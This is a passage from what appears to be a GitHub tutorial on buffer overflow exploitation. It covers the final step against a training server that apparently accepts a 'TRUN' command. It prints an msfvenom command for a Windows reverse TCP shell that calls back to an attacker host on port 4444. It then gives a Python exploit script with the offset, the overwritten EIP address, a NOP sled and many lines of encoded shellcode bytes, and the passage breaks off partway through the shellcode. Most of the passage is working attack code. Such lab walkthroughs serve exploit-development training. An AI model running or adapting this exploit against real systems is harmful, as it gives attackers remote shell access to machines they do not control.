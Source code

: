 or `\xaf\x11\x50\x62` in hex.

## Step 6. Generate the malicious payload

Lastly we want to generate a malicious set of instructions using *msfvenom*  that connects back to our attacker computer. To do this we use this command and specify our verified badchars which are excluded in the payload.

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.11 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f python -v payload`

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes. In the [fuzzExploit.py](scripts/fuzzExploit.py) input all the parameters gathered through the whole process 

Your final script should look something like this

```python
#!/usr/bin/env python3

import socket, time, sys
from time import sleep

ip = "192.168.1.10" # Target

port = 9999             # Integer
timeout = 5               # Integer
return_value = "\r\n"     # Does the server take input that requires enter for input? Send empty if not required
offset = 2003
padding = "\x90" * 20

# Remember little Endian e.g 0x625011af becomes \xaf\x11\x50\x62
EIP = "\xaf\x11\x50\x62"

prefix = "TRUN /.:/"
string = "A" * offset

payload =  b""
payload += b"\xba\xbc\xb2\x76\x95\xda\xde\xd9\x74\x24\xf4\x5e"
payload += b"\x31\xc9\xb1\x52\x83\xee\xfc\x31\x56\x0e\x03\xea"
payload += b"\xbc\x94\x60\xee\x29\xda\x8b\x0e\xaa\xbb\x02\xeb"
payload += b"\x9b\xfb\x71\x78\x8b\xcb\xf2\x2c\x20\xa7\x57\xc4"
payload += b"\xb3\xc5\x7f\xeb\x74\x63\xa6\xc2\x85\xd8\x9a\x45"
payload += b"\x06\x23\xcf\xa5\x37\xec\x02\xa4\x70\x11\xee\xf4"
payload += b"\x29\x5d\x5d\xe8\x5e\x2b\x5e\x83\x2d\xbd\xe6\x70"
payload += b"\xe5\xbc\xc7\x27\x7d\xe7\xc7\xc6\x52\x93\x41\xd0"
payload += b"\xb7\x9e\x18\x6b\x03\x54\x9b\xbd\x5d\x95\x30\x80"
payload += b"\x51\x64\x48\xc5\x56\x97\x3f\x3f\xa5\x2a\x38\x84"
payload += b"\xd7\xf0\xcd\x1e\x7f\x72\x75\xfa\x81\x57\xe0\x89"
payload += b"\x8e\x1c\x66\xd5\x92\xa3\xab\x6e\xae\x28\x4a\xa0"
payload += b"\x26\x6a\x69\x64\x62\x28\x10\x3d\xce\x9f\x2d\x5d"
payload += b"\xb1\x40\x88\x16\x5c\x94\xa1\x75\x09\x59\x88\x85"
payload += b"\xc9\xf5\x9b\xf6\xfb\x5a\x30\x90\xb7\x13\x9e\x67"
payload += b"\xb7\x09\x66\xf7\x46\xb2\x97\xde\x8c\xe6\xc7\x48"
payload += b"\x24\x87\x83\x88\xc9\x52\x03\xd8\x65\x0d\xe4\x88"
payload += b"\xc5\xfd\x8c\xc2\xc9\x22\xac\xed\x03\x4b\x47\x14"
payload += b"\xc4\xb4\x30\x70\xdc\x5d\x43\x7c\xdd\x26\xca\x9a"
payload += b"\xb7\x48\x9b\x35\x20\xf0\x86\xcd\xd1\xfd\x1c\xa8"
payload += b"\xd2\x76\x93\x4d\x9c\x7e\xde\x5d\x49\x8f\x95\x3f"
payload += b"\xdc\x90\x03\x57\x82\x03\xc8\xa7\xcd\x3f\x47\xf0"
payload += b"\x9a\x8e\x9e\x94\x36\xa8\x08\x8a\xca\x2c\x72\x0e"
payload += b"\x11\x8d\x7d\x8f\xd4\xa9\x59\x9f\x20\x31\xe6\xcb"
payload += b"\xfc\x64\xb0\xa5\xba\xde\x72\x1f\x15\x8c\xdc\xf7"
```